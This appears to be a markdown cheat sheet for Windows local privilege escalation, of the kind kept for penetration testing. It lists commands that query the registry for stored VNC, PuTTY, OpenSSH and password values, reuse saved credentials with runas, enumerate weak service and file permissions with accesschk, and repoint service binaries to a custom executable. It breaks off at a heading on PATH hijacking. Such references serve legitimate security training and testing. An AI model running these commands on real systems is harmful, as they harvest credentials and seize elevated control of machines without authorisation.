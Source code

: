 ## Registry

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Credential Manager
- Stores any usernames, passwords, and URLs related to web applications (Skype, etc.)

|Command|Description|
|---|---|
|cmdkey /list|List available credentials in Credential Manager|
|runas /savecred /user:\$CredentialUsername cmd.exe| Run program with saved credential|

# Unsecured Services

|Command|Description|
|---|---|
|wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v "\""| Enumerates all services and looks for unquoted service paths|
|accesschk.exe -accepteula -wuvc "\$GroupName" *|Looks for services that are modifiable by the GroupName|
|accesschk.exe -accepteula -wuvc "\$Username" *|Looks for services that are modifiable by the Username|
|accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > outfile|Looks for registry entries that are modifiable and whom they are modifiable by|
|sc config \$ServiceName binPath="C:\\Path\\To\\EXE.exe"|Modify service binPath to point to custom exe file|
|reg add HKLM\\SYSTEM\\CurrentControlSet\\services\\\$ServiceName /v \$ModifiableKey /t REG_EXPAND_SZ /d C:\\Path\\To\\EXE.exe /f|Add/overwrite registry entry to point to custom exe file|

### Addt'l Notes:
- Search the outfile generated with `accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > outfile` for users and groups that you have control of

# Unsecured File System
|Command|Description|
|---|---|
|accesschk.exe -accepteula -wus "\$GroupName" c:\*.* > outfile.txt | Enumerate all files and directories modifiable by \$GroupName |
|accesschk.exe -accepteula -wus "\$Username" c:\*.* > outfile.txt | Enumerate all files and directories modifiable by \$Username |

# PATH variable Hijacking
- Search order is from left to right
